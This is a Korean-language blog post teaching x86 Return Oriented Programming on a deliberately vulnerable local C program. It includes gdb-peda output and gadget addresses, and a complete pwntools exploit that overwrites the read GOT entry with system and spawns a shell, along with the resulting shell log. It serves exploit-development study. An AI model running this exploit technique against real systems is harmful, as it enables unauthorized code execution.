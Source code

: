 ```yaml
---
layout: post
title: "x86 Return Oriented Programming"
categories: Exploit Stack
---
```


NXbit와 Code signing과 같은 보안 기능이 있는 상태에서 코드 실행 가능하게 해주는 기술이다.  
RTL + Gadgets(해당 프로그램이 사용하는 메모리에 있는 기계어)  
Gadgets은 일반적으로 ret로 끝나며, 기존 프로그램 또는 공유 라이브러리 코드 내 서브 루틴에 존재.

## **Proof of Concept**

```c
// Vuln Code
// gcc -m32 -fno-stack-protector -o rop rop.c
#include <stdio.h>
#include <unistd.h>
  
void vuln(){
    char buf[50];
    read(0, buf, 256);
}
 
void main(){
    write(1,"Hello ROP\n",10);
    vuln();
}
```

256자를 Read하므로 Buffer Overflow가 발생한다.

## **Exploit Mehtod**
1. read 함수를 통해 "/bin/sh" 명령을 쓰기 가능한 메모리에 저장
1. write 함수를 이용해 read 함수의 .got 영역에 저장된 값 출력
1. read 함수를 이용해 read 함수의 .got 영역에 system 함수 주소를 덮어씀
1. read 함수 호출 - read .got 영역에 system 주소 저장되어 있기 떄문에 system 함수가 호출

```c
read(0,writableArea,len(str(binsh)))
write(1,read_got,len(str(read_got)))
read(0,read_got,len(str(read_got)))
system(writableArea)
```

**Writable Area**

```
gdb-peda$ shell cat /proc/26912/maps
08048000-08049000 r-xp 00000000 08:01 131514     /home/pwner/test/rop
08049000-0804a000 r--p 00000000 08:01 131514     /home/pwner/test/rop
0804a000-0804b000 rw-p 00001000 08:01 131514     /home/pwner/test/rop  <--- 변하지 않는 writable 영역
b7d43000-b7d44000 rw-p 00000000 00:00 0 
b7d44000-b7ef4000 r-xp 00000000 08:01 393587     /lib/i386-linux-gnu/libc-2.23.so
b7ef4000-b7ef6000 r--p 001af000 08:01 393587     /lib/i386-linux-gnu/libc-2.23.so
b7ef6000-b7ef7000 rw-p 001b1000 08:01 393587     /lib/i386-linux-gnu/libc-2.23.so
b7ef7000-b7efa000 rw-p 00000000 00:00 0 
b7f10000-b7f11000 rw-p 00000000 00:00 0 
b7f11000-b7f14000 r--p 00000000 00:00 0          [vvar]
b7f14000-b7f16000 r-xp 00000000 00:00 0          [vdso]
b7f16000-b7f39000 r-xp 00000000 08:01 393559     /lib/i386-linux-gnu/ld-2.23.so
b7f39000-b7f3a000 r--p 00022000 08:01 393559     /lib/i386-linux-gnu/ld-2.23.so
b7f3a000-b7f3b000 rw-p 00023000 08:01 393559     /lib/i386-linux-gnu/ld-2.23.so
bfae5000-bfb06000 rw-p 00000000 00:00 0          [stack]
```

**Sections**

```
gdb-peda$ shell objdump -h rop

rop:     file format elf32-i386

Sections:
Idx Name          Size      VMA       LMA       File off  Algn
  0 .interp       00000013  08048154  08048154  00000154  2**0
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
                          >> snip... <<
                  CONTENTS, ALLOC, LOAD, DATA
 22 .got          00000004  08049ffc  08049ffc  00000ffc  2**2  
                  CONTENTS, ALLOC, LOAD, DATA
 23 .got.plt      00000018  0804a000  0804a000  00001000  2**2 <-- .got.plt
                  CONTENTS, ALLOC, LOAD, DATA
 24 .data         00000008  0804a018  0804a018  00001018  2**2 <-- .data
                  CONTENTS, ALLOC, LOAD, DATA
 25 .bss          00000004  0804a020  0804a020  00001020  2**0 <-- .bss
                  ALLOC
 26 .comment      00000035  00000000  00000000  00001020  2**0
                  CONTENTS, READONLY
```

**Gadgets**

```
gdb-peda$ ropgadget
ret = 0x80482d2
popret = 0x80482e9
pop2ret = 0x80484ea
pop3ret = 0x80484e9
pop4ret = 0x80484e8
addesp_12 = 0x80482e6
addesp_16 = 0x80483a5
```

**Symbols**

```
gdb-peda$ elfsymbol read
Detail symbol info
read@reloc = 0
read@plt = 0x8048300
read@got = 0x804a00c

gdb-peda$ elfsymbol write
Detail symbol info
write@reloc = 0x10
write@plt = 0x8048320
write@got = 0x804a014
```

**offset**

```
gdb-peda$ p read
$1 = {<text variable, no debug info>} 0xb7e90b00 <read>

gdb-peda$ p system
$3 = {<text variable, no debug info>} 0xb7df5da0 <__libc_system>

gdb-peda$ p 0xb7e90b00-0xb7df5da0
$4 = 0x9ad60
```

## **Exploit Code**
```python
# Exploit Code
from pwn import *
from struct import *

binsh = "/bin/sh"
binary = ELF("./rop")
libc = ELF("/lib/i386-linux-gnu/libc-2.23.so")
writableArea = 0x0804a050
read_got = binary.got['read']
read_plt = binary.plt['read']
read_system_offset = libc.symbols['read'] - libc.symbols['system']

rop = ROP(binary)

rop.read(0,writableArea,len(str(binsh)))
rop.write(1,read_got,4)
rop.read(0,read_got,len(str(read_got)))
rop.raw(read_plt)
rop.raw(0xaaaaaaaa)
rop.raw(writableArea)

payload = "A"*62 + str(rop)

p = process('./rop')
context.log_level = 'debug'

print(p.recvn(10))
p.send(payload+'n')
p.send(binsh)
read = u32(p.recvn(4))
system_addr = read - read_system_offset

rop = ROP(binary)
rop.raw(system_addr)
p.send(str(rop))

p.interactive()
```

## **Exploit**
```shell
[DEBUG] Received 0x27 bytes:
    'uid=0(root) gid=0(root) groups=0(root)n'
uid=0(root) gid=0(root) groups=0(root)
$ pwd
[DEBUG] Sent 0x4 bytes:
    'pwdn'
[DEBUG] Received 0x11 bytes:
    '/home/pwner/testn'
/home/pwner/test
```

**Refereces**  
[https://www.lazenca.net/display/TEC/01.ROP%28Return+Oriented+Programming%29-x86](https://www.lazenca.net/display/TEC/01.ROP%28Return+Oriented+Programming%29-x86)

